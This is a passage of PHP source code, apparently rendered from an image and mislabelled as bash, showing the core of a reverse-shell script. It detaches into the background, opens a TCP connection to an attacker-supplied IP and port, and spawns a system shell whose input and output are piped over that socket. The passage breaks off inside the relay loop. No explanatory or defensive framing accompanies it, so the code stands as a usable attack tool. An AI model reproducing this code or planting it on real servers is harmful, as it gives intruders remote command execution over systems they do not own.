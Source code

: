 ```bash

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
```